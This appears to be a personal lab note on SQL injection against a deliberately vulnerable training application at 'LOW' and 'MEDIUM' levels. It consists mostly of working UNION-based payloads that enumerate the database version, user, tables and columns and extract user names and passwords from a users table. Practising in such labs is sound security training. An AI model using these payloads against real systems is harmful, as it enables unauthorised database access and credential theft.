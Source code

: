 ```yaml
---
category: Uncategorized
tags: []
---
```

LOW

`'` in the box shows a MySQL error.

Use [[SQL Payload]] to find credentials dumped.

From here, we need to close out all the characters with `'` as seen below:

`%' or '0'='0' `

Find how many columns exist:
```SQL - target
%' or '0'='0' union select null, null-- -
```

Dump database version:
```SQL - target
%' or '0'='0' union select null, version()-- -
```

Dump database user:
```SQL - target
%' or '0'='0' union select null, user()-- -
```

Dump database name:
```SQL - target
%' or '0'='0' union select null, database()-- -
```

Display all tables in information_schema:
```SQL - target
%' or '0'='0' union select null, table_name from information_schema.tables-- -
```

Display all users tables in information_schema:
```SQL - target
%' or '0'='0' union select null, table_name from information_schema.tables where table_name like 'user%'#
```

Display all the columns fields in the information_schema:
```SQL - target
%' or '0'='0' union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #
```

Display column field contents:
```SQL - target
%' or '0'='0' union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
```

MEDIUM
`'` in the box shows a MySQL error.

Use [[SQL Payload]] to find credentials dumped.

Find how many columns exist:
```SQL - target
1 or 0=0 union select null, null-- -
```

Dump database version:
```SQL - target
1 or 0=0 union select null, version()-- -
```

Dump database user:
```SQL - target
1 or 0=0 union select null, user()-- -
```

Dump database name:
```SQL - target
1 or 0=0 union select null, database()-- -
```

Display all tables in information_schema:
```SQL - target
1 or 0=0 union select null, table_name from information_schema.tables-- -
```

Display all users tables in information_schema:
```SQL - target
1 or 0=0 union select null, table_name from information_schema.tables where table_name like 'user%'#
```

Display all the columns fields in the information_schema:
```SQL - target
1 or 0=0 union select null, concat(table_name,0x0a,column_name) from information_schema.columns where table_name = 'users' #
```

Display column field contents:
```SQL - target
1 or 0=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #
```

